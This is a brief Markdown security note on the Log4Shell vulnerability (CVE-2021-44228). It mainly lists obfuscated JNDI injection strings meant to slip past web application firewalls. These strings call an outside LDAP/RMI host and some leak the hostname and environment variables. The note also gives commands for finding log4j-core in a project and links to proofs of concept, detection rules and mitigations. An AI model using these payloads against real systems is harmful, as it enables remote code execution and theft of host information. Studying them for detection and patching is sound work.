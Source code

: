 ## CVE-2021-44228

### Waf bypass
```

${jndi:ldap://127.0.0.1:1389/ badClassName} 
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${::-j}ndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${jndi:rmi://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${lower:jndi}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:${lower:jndi}}:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:jndi}:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit} 
${${upper:j}${upper:n}${lower:d}i:${upper:rmi}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${upper:j}${upper:n}${upper:d}${upper:i}:${lower:r}m${lower:i}}://nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk/sploit}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${upper::-j}${upper::-n}${::-d}${upper::-i}:${upper::-l}${upper::-d}${upper::-a}${upper::-p}://${hostName}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://${hostName}.${env:COMPUTERNAME}.${env:USERDOMAIN}.${env}.nsvi5sh112ksf1bp1ff2hvztn.l4j.zsec.uk}
```
### 查找
```
find . -name *.jar|grep log4j-core
mvn dependency:tree -Dincludes=org.apache.logging.log4j:log4j-core
```


### Ref
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml
- https://gist.github.com/ZephrFish/32249cae56693c1e5484888267d07d39
- https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
- https://github.com/jas502n/Log4j2-CVE-2021-44228
- http://slf4j.org/log4shell.html
- https://github.com/cldrn/codeql-queries/blob/master/log4j-injection.ql
- [Apache Log4j2 漏洞影响面查询](https://log4j2.huoxian.cn/layout)
- [Security Advisories / Bulletins linked to Log4Shell (CVE-2021-44228)](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- https://github.com/jfrog/log4j-tools
- [log4j-jndi-be-gone: A simple mitigation for CVE-2021-44228](https://research.nccgroup.com/2021/12/12/log4j-jndi-be-gone-a-simple-mitigation-for-cve-2021-44228/)
- [Detection rules to look for Log4J usage and exploitation](https://github.com/timb-machine/log4j)

